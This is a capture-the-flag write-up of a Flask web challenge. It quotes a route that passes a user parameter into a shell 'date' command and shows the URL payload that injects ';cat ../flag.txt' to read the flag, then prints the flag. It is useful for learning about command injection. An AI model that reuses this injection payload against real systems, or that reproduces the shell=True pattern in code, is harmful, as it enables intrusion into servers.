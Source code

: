 # Induction Therapy - web

## Challenge

The citizens of Freedonia are preparing for an upcoming national vote - but before they can make their voices heard, they’ll need to get informed. This challenge drops participants into a voter education web portal where all candidates, policies, and debates are presented for review. Only time will tell who'll you vote for soon...

Provided domain & zip file containing source code.

## Solve

In the source we can see the `pretty()` function is vulnerable to command injection:

```py
@app.route("/pretty")
def pretty():
    fmt = request.args.get("format", "")
    try:
        result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
        return f"{result.decode()}"
    except subprocess.CalledProcessError as e:
        return f"Error: {e.output.decode()}", 400
    except Exception as e:
        return f"{str(e)}", 500
```

- `result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)`
  - Uses Python `subprocess` module to run a shell command and stores output in `result`
  - `subprocess.check_output()` runs command in subprocess
  - `fmt = request.args.get("format", "")` captures format from user
  - `shell=True` runs the command through a shell e.g `bin/sh`
  - `stderr=subprocess.STDOUT` both `stderr` and `stdout` are returned in `result`

Since we control `fmt`, we can inject commands by escaping with `'` and chaining with `;`:

`3.105.27.130:9001/pretty?format=';<further_commands>`

After exploring the file structure I eventually retrieved the flag with:

`3.105.27.130:9001/pretty?format=';cat ../flag.txt'`

commandinject.png

`secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}`



